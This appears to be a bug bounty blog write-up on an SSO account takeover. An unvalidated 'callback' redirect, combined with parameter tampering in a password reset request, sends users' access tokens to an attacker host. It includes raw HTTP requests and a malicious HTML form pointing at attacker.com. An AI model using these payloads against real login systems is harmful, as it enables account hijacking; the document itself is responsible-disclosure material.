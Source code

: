 ```yaml
---
layout: post
title: From Unvalidated Redirect and Parameter Tampering to Account Takeover
excerpt: "In this simple write-up, I would like to tell how I found an Account Takeover vulnerability with a unique method. There's no special or unique bypass thing. Just try to find another exploitation way."
tags: [bug hunting, hacking, unvalidated redirect, parameter tampering, account takeover]
categories: [bug hunting]
comments: true
image:
  feature: 5ee3bc3a3226da3dc1a3f88671451018.png
---
```



بسم الله الرحمن الرحيم

In this simple write-up, I would like to tell how I found an Account Takeover vulnerability with a unique method. There's no special or unique bypass thing. Just try to find another exploitation way.

>Because this is a Private Program, all Endpoint names, parameters, and part of the information displayed here is not the real name. This was made to give readers an idea to make it easier to understand the contents of this paper.

Some time ago, I did a Bug Hunting activity on a website based application. The site has several subdomains, each of which has different functions. This website uses SSO as an authentication scheme to make it easier for users to access each of the existing subdomains.

**I. Unvalidated Redirect**

When accessing different subdomains, there is a `Login Button` which when the user clicks, the user will send a request like the following:

```
POST /ssoLogin HTTP/1.1
Host: redacted.com
Connection: close
Content-Length: 123
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36
Accept-Encoding: gzip, deflate

action=login&app=app.name&callback=https://app.redacted.com/callback
```

Then the user will be directed to the subdomain URL along with access token on it.

Example:

```
https://app.redacted.com/callback?token=uaJfJi8hlNFCPSiKmjWO
```

This request can be manipulated by changing the value of the `callback` parameter to `app.redacted.com.attacker.com.` The attacker can steal user tokens by diverting callbacks to websites controlled by the attacker and creating simple malicious HTML like this:

```html
<html>
	<body>
		<form method="POST" action="https://redacted.com/ssoLogin">
			<input type="hidden" name="action" value="login"/>
			<input type="hidden" name="app" value="app.name"/>
			<input type="hidden" name="callback" value="https://app.redacted.com.attacker.com/callback"/>
			<input type="submit" value="Submit">
		</form>
	</body>
<html>
```

Sending `malicious links` to victims is boring, so I tried to find another way to trigger the request.

**II. Parameter Tampering**

After browsing through some of the features of the application, I found something interesting about the password reset function. When the user resets the password, then the user will be asked to enter his email address, but when making an intercept request, several other parameters are sent, not just email.

```
POST /resetPassword HTTP/1.1
Host: redacted.com
Connection: close
Content-Length: 123
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36
Accept-Encoding: gzip, deflate

action=resetpass&app=null&callback=null
```

There are similar parameters that are sent when logging into another subdomain when using SSO, it's `app` and `callback`.

So I tried to change the value the same as the previous request:

```
app=app.name&callback=https://app.redacted.com.attacker.com/callback
```

Surprisingly, I received an email to request a password with a URL like this:

```
https://redacted.com/resetPassword?token=uaJfJi8hlNFCPSiKmjWO&app=app.name&callback=https://app.redacted.com.attacker.com/callback
```

After entering a new password, the user will automatically be redirected to the login process along with the parameters listed in the URL. Of course, because the `callback` parameter has been manipulated, the user will be directed to the attacker's website along with its access token.

Attack Flow:

![Attack Flow](/assets/ba62970936fbee1b8f84b6fd8dc9fb24.png){:height="700px" width="400px"}

Attacker will receive a request on his server with user's token on it.

![Attacker's Side](/assets/f3abb86bd34cf4d52698f14c0da1dc60.jpg)

I report this issue through Bugcrowd.

```
Timeline:

2019-10-17: Report Sent
2019-10-17: Report Triaged
2019-10-25: $4,500 Bounty Awarded
2020-03-03: Fixed
```

